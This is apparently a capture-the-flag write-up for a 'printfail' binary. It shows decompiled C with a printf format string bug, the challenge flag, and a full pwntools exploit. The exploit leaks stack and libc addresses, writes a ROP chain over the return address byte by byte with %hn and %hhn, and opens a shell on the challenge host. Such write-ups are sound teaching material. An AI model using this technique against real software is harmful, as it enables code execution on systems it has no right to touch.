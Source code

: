 ### Challenge

Here we are given a binary with the following code
```
int main() {
  int iVar1;
  long in_FS_OFFSET;
  int i;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("I\'ll let you make one printf call. You control the format string. No do-overs.");
  i = 1;
  while ((i != 0 && (iVar1 = run_round(&i), iVar1 != 0))) {
    if (i != 0) {
      puts(
          "...That was an empty string. Come on, you\'ve at least gotta try!\nOkay, I\'ll give you a nother chance."
          );
    }
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

and the ```run_round``` function looks like this

```

int run_round(uint *param_1)

{
  int iVar1;
  char *pcVar2;
  size_t sVar3;
  
  memset(buf,0,0x200);
  fflush(stdout);
  pcVar2 = fgets(buf,0x200,stdin);
  if (pcVar2 == (char *)0x0) {
    iVar1 = 0;
  }
  else {
    sVar3 = strlen(buf);
    *param_1 = (uint)(sVar3 < 2);
    iVar1 = printf(buf);
  }
  return iVar1;
}

```

We have a format string vulnerability in ```run_round``` that allows us to leak the stack.

### Approach

After running ```run_round``` we check the value of variable ```i``` in main whether it's non zero or not. If it is we are given another chance to abuse the format string vulnerability. Since we have the variable located on the stack it is very easy for us to write a non zero value there using $n. On examining the stack, I saw that this variable is at argument offset 7 from the stack, so I could overwrite it as many times as I want. However, since the format string is located on the .bss section, we don't have control over what addresses we can place in the stack. 
The binary has all the protections(FULL RELRO, NX enabled, Canary, PIE), so overwriting GOT is out of the picture.
First using %p|%p|%p......., I first created a layout of what the stack looks like when ```printf``` is called. Using these addresses we can easily compute the binary base and the libc base.
For this binary we are told that the libc version is the same as Ubuntu 20.04. So I patched the binary using ```pwninit```, to get the correct libc address.
The challenge was to overwrite the return address with a ROP chain that gives us shell.
For that I used certain stack addresses that point to another stack address
<img src="./stack_layout.png">

So first we write the return address that we want to overwrite, on the stack using these addresses. And once we have the appropriate stack address there, we can overwrite any value we want using $hn or $hhn. 

```
flag: utflag{one_printf_to_rule_them_all}
```

### Exploit
```
from pwn import *

e = ELF("./printfail")
#p = e.process()
p = remote("puffer.utctf.live", 4630)
context.terminal = ["tmux", "splitw", "-h"]
gdbscript = """
    br *run_round + 132
"""
return_address = 0
libc_base = 0
 
def write_addr(address):
    address_hex = hex(address)[-4:]
    payload = b"1%7$n"
    payload += b"%" + str(int(address_hex, 16) - 1).encode() + b"c"
    payload += b"%31$hn"
    p.sendline(payload)
    p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!")
    p.recvline()


def write_byte(byte_val):
    payload = b"1%7$n"
    if byte_val == 0:
        payload += b"%" + str(0x100 - 1).encode() + b"c"
    else:
        payload += b"%" + str(byte_val - 1).encode() + b"c"
    payload += b"%45$hhn"
    p.sendline(payload)
    p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!")
    p.recvline()

count = 0
# 31st param has the address. Address value is at 45th parameter
def print_stack():
    global return_address
    global libc_base
    global count 
    payload = b"1%7$n|"
    for i in range(6, 70):
        payload += b"%" + str(i).encode() + b"$p|"
    p.sendline(payload)
    out = p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!").decode()

    out_list = out.split("|")[1:-1]
    stack_addr = int(out_list[2], 16) - 0x30
    print("stack_start address: 0x%x" %stack_addr)

    elf.address = int(out_list[3],16) - 60 - e.sym['main']

    return_address = stack_addr + 0x38

    if count == 0:
        libc_base = int(out_list[7],16) - 147587
    count += 1

    for (index, val) in enumerate(out_list):
        print("| {} ->  {} |".format(hex(stack_addr + (index*8)), val))

print_stack()
p.recvline()
print("Main binary: 0x%x" %elf.address)
POP_RDI = elf.address + 0x1373
print("Return address: 0x%x" %return_address)
print("Libc base: 0x%x" %libc_base)

buf_addr = elf.address + 0x4040

write_addr(return_address)

# print_stack()
for i in range(6):
    byte_to_write = p64(POP_RDI)[i]
    write_addr(return_address + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(buf_addr)[i]
    write_addr(return_address + 8 + i)
    write_byte(byte_to_write)

POP_POP_RSI = elf.address + 0x1371
for i in range(6):
    byte_to_write = p64(POP_POP_RSI)[i]
    write_addr(return_address + 16 + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(0x0)[i]
    write_addr(return_address + 24 + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(0x0)[i]
    write_addr(return_address + 32 + i)
    write_byte(byte_to_write)

system_addr = libc_base + 336528

for i in range(6):
    byte_to_write = p64(system_addr)[i]
    write_addr(return_address + 40 + i)
    write_byte(byte_to_write)

print_stack()

payload_new = b"/bin/sh\x00\x00"
p.sendline(payload_new)

p.interactive()
```


